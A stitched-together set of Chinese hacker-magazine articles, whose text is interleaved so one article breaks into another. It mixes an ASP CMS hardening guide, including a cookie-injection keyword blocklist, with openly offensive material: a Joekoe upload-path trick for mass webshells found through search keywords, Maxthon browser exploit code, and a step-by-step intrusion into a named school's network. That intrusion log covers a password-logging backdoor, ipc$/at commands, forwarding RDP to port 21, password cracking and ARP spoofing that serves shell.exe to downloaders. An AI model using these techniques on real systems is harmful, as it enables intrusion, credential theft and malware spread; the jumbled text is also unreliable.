打开 inc/check_sql.asp，在 `%>` 之前加入以下代码过滤掉 cookie 注入。

```asp
' 对 cookie 过滤
Dim Cookie_badword
Cookie_badword="' || and || select || update || chr || delete || %20from || insert || mid || master. || set || chr(37)"
if request.cookies<>"" Then
    Chk_badword=split(Cookie_badword," || ")
    FOR EACH NAME IN Request.cookies
        for i=0 to ubound(Chk_badword)
            If Instr(LCase(request.cookies(name)),Chk_badword(i))<>0 Then
                Select Case Err_Message
                    Case "1"
                        Response.Write "<Script Language=JavaScript>alert('出错了！表单"&name&"的值中包含非法字符串！\n\n请不要在表单中出现: and select 等非法字符！');window.close();</Script>"
                    Case "2"
                        Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
                    Case "3"
                        Response.Write "<Script Language=JavaScript>alert('出错了！参数"&name&"的值中包含非法字符串！\n\n请不要在表单中出现: and select 等非法字符！');location.href='"&Err_Web&"';</Script>"
                End Select
                Response.End
            End If
        NEXT
    NEXT
end if
```

防注入文件修改好了，应该可以防 cookie 注入了吧。

### 2、一般注入漏洞修补

因为已知 CompHonorBig.asp 和 CompVisualizeBig.asp 这两个文件都没有包含防注入文件，而未知的文件不知道还有没有，还是直接在数据库连接文件中包含防注入文件吧，懒得去看代码了。于是在 inc/conn.asp 头加入 `<!--#include File="Check_Sql.asp"-->`。

但此时有些页面已包含了防注入文件 Check_Sql.asp，如不去掉将出错。打开 Userorder.asp、Newsclass.asp 和 Shownews.asp 三个文件，把文件头的 `<!--#include file="inc/Check_Sql.asp"-->` 删除，再打开 inc 目录下的 SysProduct.asp 和 SysDown.asp 文件，同样把 `<!--#include file="Check_Sql.asp"-->` 删除掉。OK! 防注完成。

## 二、跨站

虽然一般来说跨站大多时候并不对服务器造成多大的威胁，但是以挂马对访问的用户造成威胁，一个正常的网站是不应该存在这样的漏洞的。所以把所有关于用户输入处都加入以下过滤函数。

在 inc/Check_Sql.asp 文件中加入下面函数：

```asp
function killbad(byval s1) '过滤所有危险字符,包括跨站脚本
    if len(s1) = 0 then
        killbad=""
    else
        killbad = trim(replace(replace(replace(replace(replace(replace(replace(s1,Chr(10),"<br>"), Chr(34), ""), ">", "&gt;"), "<", "&lt;"), "&", "&"),chr(39),""),chr(32),""),chr(13),""))
    end if
end function
```

### 1、留言

打开 Feedbacksave.asp 把第 56 到 66 行改为：

```asp
rs("CompanyName")=killbad(trim(request.form("CompanyName")))
rs("Add")=killbad(Add)
rs("Postcode")=killbad(Postcode)
rs("Receiver")=killbad(trim(request.form("Receiver")))
rs("Phone")=killbad(trim(request.form("Phone")))
rs("Mobile")=killbad(Mobile)
rs("Fax")=killbad(Fax)
rs("email")=killbad(email)
rs("title")=killbad(trim(request.form("title")))
rs("content")=killbad(htmlencode2(request.form("content")))
rs("Publish")=killbad(trim(request.form("Publish")))
```

留言部分完成，其实应该对 E-mail 和电话的输入作检查的，但是我懒，所以就不做了。：）

### 2、新闻评论

打开 comment.asp 文件，把第 23、24 行改为：

```asp
rs("com_name")=killbad(com_name)
rs("com_content")=killbad(content)
```

### 3、询价

打开 OrderPreview.asp 文件，把第 4 到 13 行改为：

```asp
Subject=killbad(request.form("Subject"))
UserName=killbad(session("UserName"))
Receiver=killbad(request.form("Receiver"))
Sex=killbad(request.form("Sex"))
Phone=killbad(request.form("Phone"))
Add=killbad(request.form("Add"))
Email=killbad(request.form("Email"))
Notes=killbad(request.form("Notes"))
CompanyName=killbad(request.form("CompanyName"))
Fax=killbad(request.form("Fax"))
```

### 4、人才招聘

打开 HrDemandAccept.asp 文件，把第 193 到 210 行改为：

```asp
rs("Quarters")=killbad(Quarters)
rs("name")=killbad(Uname)
rs("Sex")=killbad(Sex)
rs("Marry")=killbad(Marry)
rs("Birthday")=killbad(Birthday)
rs("Stature")=killbad(Stature)
rs("School")=killbad(School)
rs("Studydegree")=killbad(Studydegree)
rs("Specialty")=killbad(Specialty)
rs("Gradyear")=killbad(Gradyear)
rs("Residence")=killbad(Residence)
rs("Edulevel")=killbad(Edulevel)
rs("Experience")=killbad(Experience)
rs("Phone")=killbad(Phone)
rs("Mobile")=killbad(Mobile)
rs("Email")=killbad(Email)
rs("Add")=killbad(Add)
rs("Postcode")=killbad(Postcode)
```

### 5、用户注册

打开 UserRegPost.asp 文件，把第 114 到 127 行改为：

```asp
rsReg("UserName")=killbad(UserName)
rsReg("Password")=md5(Password)
rsReg("Question")=killbad(Question)
rsReg("Answer")=md5(Answer)
rsReg("Sex")=killbad(Sex)
rsReg("Email")=killbad(Email)
rsReg("HomePage")=killbad(HomePage)
rsReg("CompanyName")=killbad(CompanyName)
rsReg("Add")=killbad(Add)
rsReg("Receiver")=killbad(Receiver)
rsReg("Postcode")=killbad(Postcode)
rsReg("Phone")=killbad(Phone)
rsReg("Mobile")=killbad(Mobile)
rsReg("Fax")=killbad(Fax)
```

再打开 UserEdit.asp 文件，把第 79 到 88 行改为：

```asp
rsUser("Sex")=killbad(Sex)
rsUser("Email")=killbad(Email)
rsUser("HomePage")=killbad(HomePage)
rsUser("CompanyName")=killbad(CompanyName)
rsUser("Add")=killbad(Add)
rsUser("Receiver")=killbad(Receiver)
rsUser("Postcode")=killbad(Postcode)
rsUser("Phone")=killbad(Phone)
rsUser("Mobile")=killbad(Mobile)
rsUser("Fax")=killbad(Fax)
```

## 三、后台拿 shell 漏洞修补

### 1、在网站配置文件写入一句话

打开管理网站配置文件 admin/Siteconfig.asp，在头包含加入 `<!--#include file="../inc/Check_Sql.asp"-->` 过滤掉“%”，防止把一句话马写入网站配置文件 inc/config.asp 中。

### 2、在数据库写入一句话后备份数据库

打开数据备份文件 admin/Admin_DataBackup.asp，把第 66 到 71 行改为：

```asp
fso.copyfile dbpath,bkfolder& "\" & bkdbname & ".data"
else
MakeNewsDir bkfolder
fso.copyfile dbpath,bkfolder& "\" & bkdbname & ".data"
end if
response.write "<center>备份数据库成功,备份的数据库为 " & bkfolder & "\" & bkdbname & ".data</center>"


```

原来是直接备份为 asa 文件的，也就是在上传一个小马后，使用备份数据库就可以拿到 webshell 了，可能是人家故意在免费版留下的漏洞吧。

## 四、ewebeditor 遍历路径漏洞

### 1、利用方法

在 **ewebeditor/admin_uploadfile.asp?id=14** 处，id=14 后面添加 **&dir=../../** 的形式就可以看到整个网站文件了，如 **&dir=../../**。

### 2、修补

对于 ewebeditor 遍历目录的漏洞，反正用不到 ewebeditor 的管理功能，所以**直接把 admin/southidceditor 目录下的 admin_private.asp、admin_uploadfile.asp、admin_decode.asp 和 admin_style.asp 删除就行了。**

## 五、对数据库做防下载处理

首先用 notepad 新建一个内容为“<%”（不包括双引号）的文本文件，随便起个名字存档。接着用 Access 打开数据库 0791idc.mdb，新建一个表 nodown，在表中添加一个 OLE 对象的字段，如图 1 所示。

然后添加一个记录，插入之前建立的文本文件，如图 2 所示。如果操作正确的话，应该可以看到一个新的名为“数据包”的记录。把数据库改为 0791idc.asp（或者复杂一点的），再打开 inc/conn.asp，把第 5 行数据库文件位置改为 Databases/0791idc.asp。

图 1 新建一个表

图 2 插入文本文件

图 3 下载失败

## 乔客最新漏洞批量拿 webshell

从本文你可以学到：
乔客最新漏洞利用解析

大家好，我是小菜一个，名字叫 Hack，同学都叫我黑客。今天我给大家带来乔客最新漏洞，这个漏洞是我看牛人的博客时发现的，可以自建目录。

好了，看我的步骤吧！现在要批量拿 webshell，就要输入关键字“本网站基于 Joekoe CMS 4.0 Release 技术架构”。你可以用百度或者 Google 搜到很多的结果，如图 1 所示，这次有无数网站就要遭殃了，呵呵。

随便找个网站进去，然后注册，一定要开通博客哦！进入博客，点击相册管理，添加相册。在这里，我们要先打开抓包工具，然后点击上传图片之后就按“开始 / 停止”按钮马上进行抓包，如图 2、图 3 所示。
找到 GET /common/upload 信息包，点击一下，在下面的详细信息里提取如下地址：

```
/common/upload.asp?channel=blog&filetype=pic&filename=20080622173714E&fileinput=m_pic&formname=&thumbname=&thumbinput=name=&thumbinput=
```

就可以了。最后试试下载数据库，发现是下载不了的，如图 3 所示。

## 六、防止 iframe 挂马

最后做一下防止 iframe 挂马，打开 inc/skin_css.asp 文件，在第 21 行“<style type="text/css">”下面插入一行“iframe {v:expression(this.src='about:blank',this.outerHTML='');}”（不带双引号）就可以了，如图 4 所示。

```
Skin_CSS=split(rsSkin("Skin_CSS"),"|||")
%>
<style type="text/css">
iframe{v:expression(this.src='about:blank',this.outerHTML='');}
<%=Skin_CSS(0)%>
BODY


```

不过这种方法不能防止 JS 挂马。

> **编辑点评**：作者从自己的需求出发，对南方数据整站系统中存在的一些问题做了说明和修补。其实，思路很重要，常常找漏洞的人可以从这些方面来探测漏洞；常常修补漏洞的也可以参考本文，从其几个方面进行修复和检测。

要的就是这个地址，直接打开这个上传页面，http://www.XXX.com//common/upload.asp?channel=blog&filetype=pic&filename=20080622173714E&fileinput=m_pic&formname=&thumbname=&thumbinput=，如图 4 所示。

接着就是在 channel=blog 这里随便改，把 blog 改成 hack.asp 目录就可以啦！然后按回车，把 ASP 木马改成 jpg 格式的，上传木马……如图 5 所示。
连接木马，得到了 Webshell，如图 6 所示。
这样子就得到了 Webshell，这下子小菜们又有得玩了。高二了，现在是准高三，要考大学了哦……最后祝《黑客手册》勇闯未来！

> **编辑点评**：乔客的这个漏洞还算比较隐蔽，只有细心的人才能发现，作者用自己的语言和思路将这个漏洞带给大家，希望大家不要干坏事哦。
从本文你可以学到：
- 1、傲游浏览器缺陷分析
- 2、缺陷的利用

在中国的，有多少人在使用 Windows 内置的 IE 浏览器上网？并没有人做过统计，但是一款名为《傲游》的浏览器迄今为止却被网民下载了上亿次，这就意味着，每两个网民中就有一个人曾经使用过这款浏览器。

## 一、傲游网络的浏览器

多数用户在上网时仍然是习惯使用 Windows 自带的 IE 浏览器，但是很多时候，这些用户也对 IE 弹出的诸多新窗口很头疼。因为用户一旦打开的新窗口过多，那么查找起网页来会十分麻烦，虽然 IE7 添加了标签功能，但是仍然有很多用户不满足 IE7 提供的浏览方式，于是傲游 (Maxthon) 成为了大多数人的选择。

傲游是一款基于 IE 内核的多功能浏览器，最大的特点就是允许在同一窗口内打开任意多个页面，减少浏览器对系统资源的占用率，提高网上冲浪的效率。同时它又能有效防止恶意插件，阻止各种弹出式和浮动式广告，能够很大程度上减少用户浏览到过多广告，充分的利用网络中的资源。

> 小知识：基于 IE 内核的浏览器主要是指以 IE 为“解读引擎”核心的浏览器。网络浏览器最重要，或者说最为核心的部分是“Rendering Engine”，你可以将其理解为“解读引擎”，但是多数用户通常习惯将其称之为“浏览器内核”。这个“解读引擎”，或者说“浏览器内核”，主要负责对网页中语法的解读，例如 HTML、JavaScript 或 VBScript 等，在将语法解读之后，才能够生成出我们看到的网页效果。

```javascript
window.onload=function(){
for (i=0;i<document.links.length;i++) {
document.links[i].href="javascript:win()"
}
}
</script>
```

或许是傲游的屏蔽广告功能让很多用户误以为它是一款安全性极高的浏览器，但是事实并非如此，傲游在屏蔽广告和插件方面的优秀掩盖了它在内核方面存在的问题。在六月底，国内安全组织就发现了傲游在安全处理上存在的严重漏洞，这个漏洞可以导致黑客构建的恶意网站随意修改傲游使用者的浏览器配置，并能读取用户历史访问记录、远程下载文件等……

这次被发现的多个漏洞很多都属于高危漏洞，有很强的攻击性，如果配合病毒以及恶意的网页脚本，那么也就意味着傲游浏览器用户随时处于高危的 0Day 威胁中。更为重要的是，傲游“1.6”版在自动检测升级更新能力方面要大大弱于新版本的傲游 2，导致很多用户在傲游修补漏洞后仍然使用包含有漏洞的老版本，这就如同一把悬在这部分用户头上的达摩克利斯之剑，随时都存在着威胁。

## 二、傲游的达摩克利斯之剑

这一次傲游之所以出现漏洞的主要原因也恰恰在于其选用的 IE 内核。之前很多用户认为傲游 2 采用的是 IE7 的内核，但是事实上，傲游和傲游 2 采用的是 IE6 内核。由于程序员对于 IE6 的某些特性的生疏，导致了傲游继承了 IE 内核的优点外同时也遗传了它所有的缺陷。这其中就包括了处理一些特殊网页时出现的安全问题。

这些安全问题将表面很安全的傲游在浏览网页时采用的各种安全策略全部击毁，任何一个恶意的黑客都可以通过恶意脚本让傲游浏览器用户执行自己构建的危险操作行为，甚至包括修改傲游的设置和读取用户的浏览记录。下面，我们就来看看漏洞的利用方法。

这一次傲游所爆出的多个漏洞，威胁最大的有三个：

- 1. 浏览器内核漏洞导致的本地跨域漏洞
- 2. 傲游安全中心漏洞导致的远程修改任意用户设置
- 3. RSS 订阅跨站脚本漏洞

## 【案例一】本地跨域漏洞利用

漏洞成因：由于傲游采用了操作系统自带的 IE 内核，而内核可能存在一些安全漏洞，从而导致跨域攻击。

傲游所使用的“max:”等域指令等同于 IE 在本地使用的 file://，但是傲游并没有做相应的限制，导致黑客可以通过“max:”制造跨域攻击，并能够让傲游用户在本地执行攻击者构造的恶意 JavaScript 代码。

> 小知识：Javascript 是一种由 Netscape 的 LiveScript 发展而来的脚本语言，主要目的是为了解决服务器终端语言（比如 Perl）遗留的速度问题。当时服务端需要对数据进行验证，由于网络速度相当缓慢，只有 28.8kbps，造成验证步骤浪费的时间太多。于是 Netscape 的浏览器 Navigator 加入了 Javascript，提供了数据验证的基本功能。

漏洞触发代码如下：

```html
<a href="">Maxthon Exploit</a>
<script>
function win(){
x=window.open("max:history");
setTimeout(function(){
x.location=new String("javascript:x=maxHistory.history.list.site.loadData();for(i=0;i<x.length;i++) document.write(x[i].site+"<br>");");
},3000)
}
</script>


```

测试方式：

第一步：首先打开 Windows “开始”菜单中的“写字板”程序，然后将上述代码输入到写字板中，另存为 HTML 或 HTM 网页格式。由于这段漏洞触发代码需要通过傲游浏览器访问打开，因此如果你有 FTP 网站空间，可以直接上传后输入网址观看效果；如果你没有条件通过现有的 FTP 空间测试，那么可以通过本地搭建网络环境。

第二步：搭建环境首先要检查系统是否已安装 IIS。单击“开始”菜单中的“管理工具”，检查是否存在“Internet 信息服务 (IIS) 管理器”，然后启动 IIS 管理器，在左边目录栏中点击右键，在弹出的菜单中选择“新建”——“网站”，新建一个网站站点，如图 1 所示。
随后在弹出的“网站创建向导”对话框中点击“下一步”（如图 2 所示），然后按照提示在“网站描述”中输入任何自己喜欢的网站名称。继续“下一步”进入“IP 地址和端口设置”选项，网站 IP 地址不用填写，端口如没有特殊要求则保持 80 即可，如图 3 所示，最后任意设置一个你喜欢的域名。
第三步：完成后单击“确定”，关闭站点属性配置窗口回到 IIS 管理器主界面。将你前面用写字板保存的“Test.html”漏洞测试文件放到建立的“WWWROOT”目录中，打开 IE 浏览器，输入：http://你的域名或 IP 地址/test.html，此时傲游漏洞的效果就会出现，如图 4 所示。
当然，如果你感觉这个漏洞效果不满意，也可以在网络中寻找一些其它效果的 JavaScript 代码进行替换。

## 【方案二】远程修改傲游用户设置

漏洞成因：这个漏洞成因相对复杂，主要是由于傲游在设计时对IE内核的一些特性并不是十分了解，导致在处理一些特殊情况时出现安全漏洞。

傲游的控制中心实际上就是一组“HTML+Javascript”构成的网页控制平台，用户通过这些页面可以读取敏感数据、修改浏览器设置、下载文件等。

在傲游安装目录中有一个名为 security.src 的文件，它包含有如下代码：

```javascript
var max_security_id=''; var url=String(document.location).toLowerCase(); if(url.indexOf('file://')>-1&&url.indexOf('http://')===-1&&url.indexOf('https://')===-1){ max_security_id='{B73B3AC9-B009-4429-AE67-514332D791FE}'; }else{ document.location='about:blank'; }
```

其中 max_security_id 是傲游在调用各种控件时必须的一个参数，这个参数在各个功能里是必须的，每个机器的 max_security_id 并不相同。如果黑客能取得这个 max_security_id，那么就可以在远程任意站点调用傲游的各种功能。譬如设置、读取敏感数据，甚至是远程代码执行，不过 max_security_id 函数在每次启动后都会随机变更。

这个 max_security_id 会存储在安装目录的 template/security.src 里，而用户则可以通过 HTML 页面调用设置：

```html
<script src="E:\Program Files\Maxthon2\template\security.src"></script>
<script src="d:\Program Files\Maxthon2\template\security.src"></script>
<script src="c:\Program Files\Maxthon2\template\security.src"></script>
```

当然，傲游也做了相应的限制，它并不是允许所有的用户都可以调用用户计算机的本地文件，这些都通过“security.src”文件进行限制，该文件规定只有当路径地址中包含 file://，并且不包含“http://”和“https://”的时候才会赋值，否则会跳转。

但是傲游的黑名单策略导致了用户可以使用譬如“ftp://”协议绕过限制规则，例如：ftp://www.foo.com/exploit.html#file://80sec.com

傲游认为这个网址访问的是“exploit.html”网页，但是路径地址中却包含了“file://”，这样傲游的安全策略就轻松的被绕过了，当黑客取得“max_security_id”后，就可以使用恶意代码操控用户的电脑进行危险操作了。

> 小知识：FTP 的全称是 File Transfer Protocol (文件传输协议)。顾名思义，就是专门用来传输文件的协议。而 FTP 服务器则是在互联网上提供存储空间的计算机，它们依照 FTP 协议提供服务。当它们运行时，用户就可以连接到服务器上下载文件，也可以将自己的文件上传到 FTP 服务器中。

### 测试方式：

- 第一步：首先使用 Serv-U 架设一个个人匿名 FTP 服务器，然后打开 Windows 中的“写字板”程序，将下列代码输入后另存为 HTML 文件：

```html
<iframe src="ftp://192.168.1.25/history/index.htm#file:///www.hacker.com" width=100% height=100%>


```

然后根据“方案一”将该 HTML 文件放置到“WWWROOT”文件夹中。

- 第二步：“ftp://192.168.1.25/history/index.htm”为放在“192.168.1.25”FTP 服务器上精心构造的溢出网页，用它来替换傲游安装目录中“template”文件夹下的“history”子目录中的 index.html 文件内容，如图 5 所示。
图 5 被替换的内容

```html
<script type="text/javascript" src="../security.src"></script>
替换为：
<script src="E:\Program Files\Maxthon2\template\security.src"></script>
<script src="D:\Program Files\Maxthon2\template\security.src"></script>
<script src="C:\Program Files\Maxthon2\template\security.src"></script>
```

通过修改 index.htm 内容就可以修改浏览器设置，读取历史记录等。

## 三、防范方法

傲游已经推出了升级版本，用户可以通过傲游官方网站下载升级，也可以手工将傲游浏览器安装目录中的 security.src 文件修改为：

```javascript
var max_security_id=''; if(String(window.document.location).toLowerCase().indexOf('file://')==0){ max_security_id='{02E14D94-53C8-4B6D-89AE-755DC5299C6C}'; }else{ document.location='about:blank'; }


```

限定只有本地文件能引用这个 js，修复部分问题。但是该修复方法无法弥补所有的傲游漏洞，因此建议用户的第一选择仍然是升级傲游浏览器。

> 编辑点评：我们俗称傲游为“马桶”，周围的人都在用它，可想而知，文中阐述的几个漏洞是如何的严重了。读者按照文中的两个例子很容易即可构造出利用的方法，还请不要玩得过火。
# 入侵重庆朝阳中学

图 roger

> LCX：
> 估计这期杂志出的时候，奥运也要快开了，奥运期间的网络安全估计国家会非常重视，因此我在此劝告那些黑色产业链的或者是恶意搞破坏的朋友在此期间消停一下吧。也许我们的技术不到家，没法为奥运的网络安全做太多的贡献，但是我们学黑客的可以洁身自好在奥运期间少添一点乱也是一份贡献了。2008年国家多灾多难，除了中国足球外似乎一切都不太正常，期望奥运圆满成功，不会再出什么差错了。

建议通过本文注意一下作者的步骤和方法

朝阳中学，重庆市重点中学。06年的时候对这个学校的网站做过一次安全检测，当时是利用了雪人论坛的注入漏洞拿到shell的。两年过去了，这个学校的网站经过了几次改版，现在的网站通过踩点分析，基本确定了服务器上有Win2003+Serv-U 6.4+动易文章系统。

动易文章系统好象是经过了修改，试了几个动易以前暴出的漏洞，用IIS6配置缺陷漏洞拿到一个shell。这个漏洞相信大家都知道，比如建个xx.asp文件夹，然后里面放上一个asp马，扩展名改成jpg，IIS6会把图片木马当成xx.asp解析。利用方法就是注册一个xx.asp用户名，然后上传一个图片木马。

用这个方法拿到shell之后，有时候容易出现登录之后直接转向xx.asp文件夹。5月的杂志已经有人写出解决方法了，这个问题是由于webshell代码里接收参数使用了url传递造成的。比如URL=Request.ServerVariables("URL")，这样的代码改成URL=Request.ServerVariables("PATH_INFO")，意思就是使用虚拟路径，这样就不会出现转向xx.asp文件夹的错误了，如图1所示。
图1

登上webshell，服务器还有一个内网ip：192.168.1.6，web主目录D:\wwwroot，其他地方权限设置的比较严格，不能执行cmd命令，自己上传cmd.exe只能执行一些简单的命令。

查看网站管理后台admin目录，默认登录页面被管理员改成了mtt.asp，还是有一些安全常识的。下面改造一下mtt.asp，加入<!--#include file="pws.asp"-->，然后写个pws.asp，把管理员登录用户名和密码都写到当前目录下的一个txt文件里，代码如下：

```asp
<%
dim name,pws,fso,file,Path
name = Request ("UserName")
pws = Request ("password")
Const ForReading = 1,ForWriting = 2,ForAppending = 8
Set fso = Server.CreateObject ("Scripting.FileSystemObject")
Path = Server.mappath ("log.txt")
Set file = fso.opentextfile (path,ForAppending,TRUE)
file.write (name) & "|" & pws & "|"
file.close
set file = nothing
set fso = nothing
%>


```

代码很简单，不用多讲大家也知道是什么意思，等着管理员上线就可以记录密码了。服务器上装有Serv-U 6.4，试试能否提权。加了个用户提示成功，但是也没法确定是否成功，还得想办法让webshell拿到更大的权限，执行命令方便一点，如图2所示。
图2

这里我要说一下，win2k系统上把IIS组的IUSR、IWAM两个用户提到了管理员权限，在webshell里可以直接拿到system权限。但是2003上可能做了限制，把这两个用户加到管理员组，也拿不到system权限，但是可以拿到User权限，这样足够了。

后来查了一下，IIS6.0应用程序池默认就是以低权限运行的。提权之后，再用webshell的cmd命令，就可以正常执行命令了，如图3所示（编辑点评：作者如何把IUSR、IWAM这两个用户加到了管理组没有交待清楚，从上下文来猜测应当还是用了asp的serv-u提权程序来加的。另外提一下，在2003下把IIS6的应用池权限改一下就可以把web权限提升为系统权限了）。
图3

服务器只开放了21、80两个端口，用命令ipconfig查看了一下服务器，只有内网ip，可以判定网关上的路由或者其他设备直接Nat到了内网的这台主机。本来想挂个马反弹出来，但是一看服务器上装有瑞星，做免杀太不方便，我的想法就是，停掉FTP服务，开3389，然后把3389转到21或者80上，再进行连接。

如果把FTP停掉，Serv-U提权没法提了，命令行里权限又不够，于是想到最原始的办法，在webshell里建空连接（编辑点评：明明是ipc$连接，空连接没有办法执行at的），输入命令：

```cmd
Net use \\192.168.1.6\ipc$ "roger" /user:roger
net time \\192.168.1.6
at \\192.168.1.6 12:09 d:\update\run.exe
```

run.exe是我写的一个批处理，用bat2com和com2exe编译成了exe文件。然后at命令直接调用，批处理内容如下：

```cmd
ntsd -c q -pn ServUDaemon.exe //杀serv-U进程
net start TermService //开终端服务
d:\update\fpipe.exe -v -l 21 -r 3389 127.0.0.1 //fpipe端口转发，把3389转发到21端口
```

然后直接连主机的21端口，刚连上几秒钟，马上就自动断开，返回“由于网络错误，连接被中断，请重新连接到远程计算机”的错误提示。

网上查了一下，遇到这个问题的人很多，原因是注册表终端服务 Certificate 子键负责通信中数据信息的认证和加密，它一旦被损坏，终端服务的协议组件就会检测到错误，中断客户机与终端服务器之间的通信。

导致 Certificate 子键损坏的原因有很多，如管理员安装和卸载某些系统软件、对终端服务参数的不合理配置等。这时我们需要重置该键值中的内容，才能修复终端服务。

```reg
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Parameters /v Certificate /f
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Parameters /v "X509 Certificate" /f
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Parameters /v "X509 Certificate ID" /f
iisreset /reboot
```

删除几个相关键值，让计算机重新生成，执行 iisreset /reboot 重启了一下，还是连不上。这时候我怀疑是不是 fpipe 做转发出的问题（后来继续渗透的时候发现做 NAT 的这台主机是一台硬件防火墙，不知道是不是这个原因导致了 fpipe 转发失效。我装了 VNC 同样用 fpipe 做转发，telnet 上去可以返回 VNC 的 target 信息，但是用连接器连接就提示失败）。直接把终端服务设置成手动，端口改成 21 试试，还是利用 cmd 命令里建立的 ipc$，at 命令执行 cmd /c regedit /s port.reg。

port.reg 文件内容如下，就是把 3389 端口修改为 21：

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000015

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000015
```

图 4

重启一下服务器，连接成功，如图 4 所示。

前面说过服务器上装有 Serv-U 6.4，目前没拿到密码，文件必须从 webshell 里上传，IIS6 默认有限制，不能上传大于 200K 的文件，很不方便。

这时候可以直接破解 Serv-U 配置文件 ServUDaemon.ini 里的 md5 密码，也可以修改一下 C:\Windows\system32\inetsrv\metabase.xml 文件，把 metabase.xml 文件里的 SPMaxRequestEntityAllowed 参数值改大一点，默认是 204800，也就是 200K。

注意先执行 iisreset /stop 停止 IIS 服务，然后执行 iisreset /start 重启 IIS Admin Service 服务，就可以在 webshell 里直接上传大文件了。我这里用的是第一种方法，找了 ServUDaemon.ini 一段密码，直接暴力破解，由于这个密码是纯数字的，几分钟就跑出来了，如图 5、图 6 所示。

图 5

接下来就是继续向内网渗透，先用 Superscan 把整个内网的大体环境扫描一下，同时搜集服务器上能搜集到的所有密码信息（这是我个人的一个习惯，因为很多内部网络，管理员密码和一些路由设备、交换机等等都是一样的），为继续渗透做准备。

图 6

大家也可以下载主机的 sam 文件进行本地破解，但因为这个成功率不高，我就没试，这里大体说一下需要注意的事项。在你复制 sam 文件的时候，请到 C:\Windows\repair 目录下复制，直接复制 system32\config 下的 sam 文件，会被 Windows 拒绝，如图 7 所示（编辑点评：可以用 gethash.exe）。

图 7

其他的密码收集，比如 Serv-U、PcAnywhere、VNC 等等，相信就应该不用我多说了吧。我遇到的这台服务器上，VNC 相关配置注册表键值和网上说的位置不大一样，如图 8 所示。

图 8

如果找不到，我推荐在注册表搜索 Password，仔细找一下一定能找到。VNC 的密码破解用 vncx4，运行 vncx4 -w，手动输入你抓到的密码散列，程序会自动把密码转换出来，如图 9 所示。

图 9

这时候再来看一下前面我在动易后台管理登录页面 mtt.asp 里加入的那段代码，已经把管理员用户名和密码记录到 log.txt 中了，如图 10 所示。

目前为止，收集的这些密码信息已经足够了，前面 Superscan 的扫描结果也出来了，这个内部网络的拓扑结构图如图 11 所示。

图 10

这个内网有点奇怪，所有网段网关都是一样的。后来在服务器上找到了一个文件，里面是对应的学校各部门 IP 分布情况，如图 12 所示。

图 11

外网 192.168.5.x 这个网段是办公楼，那么我猜测 192.168.4.x 这个网段肯定是教学楼了。用前面抓到的密码成功登录了 192.168.1.1 这台交换机，进去看了一下，如图 13 所示。

除了 VLAN 的一些配置，而且都是 192.168.1.x 这个网段的，我觉得没什么利用价值。192.168.1.3，这台服务器看了一下确定是一台硬件防火墙，而且有独立的 IP。Web 服务器就是通过 192.168.1.3 NAT 地址转换，实现外网访问的。终端服务的桌面上有一个龙马卫士安全平台客户端，打开以后更加确定了 192.168.1.3 是一台硬件防火墙，如图 14 所示。

图 12

图 13

图 14

试了一下默认账号密码 admin/sys123 和前面收集到的那些密码，都没有登录成功。不过在这台 web 服务器 E 盘里找到了一些防火墙配置备份文件，如图 15 所示。

打开 secupasswd，里面就是防火墙的管理员用户名和加密的密码。加密方式看着像 DES，用乱刀跑了一会也没结果就放弃了。origin 目录里有很多配置文件，打开 rount.ini，里面是一些网段配置信息，基本上和我用 superscan 扫描后判断的结果是一样的。

图 15

```ini
[Route]
Default=61.128.235.105
Count=7

[Route.1]
Destination=192.168.4.0
Subnet=255.255.255.0
Gw=192.168.100.2
Metric=1
Interface=eth2
Description=

[Route.2]
Destination=192.168.5.0
Subnet=255.255.255.0
Gw=192.168.100.2
Metric=1
Interface=eth2
Description=

[Route.3]
Destination=192.168.6.0
Subnet=255.255.255.0
Gw=192.168.100.2
Metric=1
Interface=eth2
Description=

[Route.4]
Destination=192.168.1.0
Subnet=255.255.255.0
Gw=192.168.100.2
Metric=1
Interface=eth2
Description=
```

因为拿不下这台硬件防火墙，本来想在主机上做个 VPN 拨进去继续渗透，也没法实现了。

在终端里入侵了几台有漏洞的别的网段的主机，上传 Zxarps，分别在 192.168.4.x 和 192.168.5.x 网段用 arp 欺骗来挂马，命令示例如下：

```bash
zxarps.exe -idx 0 -ip 192.168.5.2-192.168.4.50 -spoofmode 3 postfix ".exe,.rar,.zip" -hackurl http://192.168.1.6/ -filename shell.exe


```

这个命令的意思是：在 192.168.5.x 这个网段中，如果有人下载扩展名是 exe、rar、zip 的文件，都会被欺骗到 192.168.1.6 上下载 shell.exe。

另外 Zxarps 这个工具还有其他一些很强大的功能，我这里就不多讲了，大家可以自己看 Zxarps 的说明文件。最后的挂马效果如图 16 所示。

图 16

## 编辑点评：

除了作者讲述的有些细节不太清楚外，这真是很好的一篇文章，关键是作者罗列了他入侵内网的步骤和方法。不过作者在内网中只是收集了密码信息和简单画了一下拓扑图，没有指出内网是否域结构和算一下有几个子网等。黑客防线

图 菜牛

# 本文是介绍菜牛写的一个小工具的用法

网上的 MYSQL 的 3306 端口提权过程一般是先扫描，然后用 MYSQL 登录写入数据库，导出 DLL，创建执行函数，再用 NC 连接获得 SHELL。比如扫描出 3306 端口主机后，要整理 IP，去掉多余字符，接着打开工具扫弱口令，扫出后再用安装好了的 MYSQL 安装版登录主机，用准备好的 TXT 文件写指令，然后再运行 CMD 使用 NC……这些操作如果没有好的一套整合工具，将会大大影响我们的提权效率。

在我使用过很多类似工具后，选出了几种，将它们整合，使各软件紧紧相嵌在一起，使用起来就像一个软件一样。这就给大家介绍一种高效率的 UDF 提权方法，使用工具：牛族 3306 提权软件，界面如图 1、图 2 所示。

下面说一下软件的功能及使用简介。打开软件后输入需要扫描的 IP 段，设置线程，端口默认 3306，你也可以用它来当个单独扫描器使用，然后按开始扫描就可以了。等到扫描完毕，会自动弹出一个框提示扫描完毕，然后就按提取 IP 地址按钮，会提示过滤好字符的纯 IP 文本保存在目录里的 ip.txt 中，如图 3 所示。

